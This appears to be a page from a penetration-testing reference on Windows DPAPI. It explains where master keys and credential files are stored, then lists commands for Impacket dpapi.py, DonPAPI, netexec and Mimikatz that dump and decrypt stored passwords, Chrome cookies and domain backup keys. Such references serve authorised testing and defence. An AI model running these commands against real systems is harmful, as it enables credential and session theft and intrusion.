 ## Theory
The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:
```bash
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```
Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.
Common paths of hidden files that usually contain DPAPI-protected data:
```bash
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```
## DPAPI dumping
=== "UNIX-like"
    From UNIX-like systems, DPAPI-data can be manipulated (mainly offline) with tools like Impacket's [dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py) and secretsdump.py (Python) or [donpapi](https://github.com/login-securite/DonPAPI).
    ```bash
    # (not tested) Decrypt a master key
    dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

    # (not tested) Obtain the backup keys & use it to decrypt a master key
    dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
    dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

    # (not tested) Decrypt DPAPI-protected data using a master key
    dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
    ```
    DonPAPI (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports pass-the-hash, pass-the-ticket and so on.
    ```bash
    DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
    ```
    Or it can be done with netexec
    ```bash
    nxc smb <ip> -u user -p password --dpapi
    nxc smb <ip> -u user -p password --dpapi cookies
    nxc smb <ip> -u user -p password --dpapi nosystem
    nxc smb <ip> -u user -p password --local-auth --dpapi nosystem
    ```
    !!! note
        need at least local admin privilege on the remote target, use **--local-auth** if your user is a local account
=== "Windows"
    On Windows systems Mimikatz (C) can be used to extract dpapi with `lsadump::backupkeys`, decrypt with `dpapi::chrome` and `dpapi::cred` or use specific master keys with `dpapi::masterkey` and `sekurlsa::dpapi` , using specified passwords or given sufficient privileges.
    ```bash
    # Extract and decrypt a master key
    dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

    # Extract and decrypt all master keys
    sekurlsa::dpapi

    # Extract the backup keys & use it to decrypt a master key
    lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
    dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

    # Decrypt Chrome data
    dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

    # Decrypt DPAPI-protected data using a master key
    dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
    ```